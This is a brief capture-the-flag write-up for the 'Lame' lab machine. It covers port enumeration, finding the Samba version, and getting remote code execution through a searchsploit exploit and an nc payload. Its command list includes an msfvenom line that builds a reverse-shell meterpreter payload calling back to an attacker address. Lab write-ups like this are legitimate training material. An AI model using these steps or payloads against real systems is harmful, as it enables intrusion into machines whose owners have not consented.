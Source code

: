 # Lame - Writeup

First I ran a standard nmap scan where I found some ports that where open. There was a vsftpd on port 21. This one was not vulnerable.

The second port that was investigated was the samba port 445. For some reason smbclient command did not work. I suspect it did not work because it did not speak smb1.0. However, I was able to find the sambaversion by using smbmap. By searchsploiting the sambaversion I found a RCE exploit. The script did not work out of the box. So I found a python alternative on the internet. I tried creating a msfvenom payload but I ran into encoding issues, I then settled my problems by using a minimal "nc" payload.

### Lessons Learned
- You have to really enumerate every port that you see in the nmap output.
- If you find an exploit using the searchsploit command you can probably find an alternative script on the internet.
- You can try different tools if one does not work. For instance smbclient did not work properly on this machine however smbmap worked and helped me find the version for this service.

### Notable commands/tools
- smbmap -H 10.10.10.3
- smbclient //10.10.10.3/tmp -N
- msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.14.37 LPORT=1337 -f python
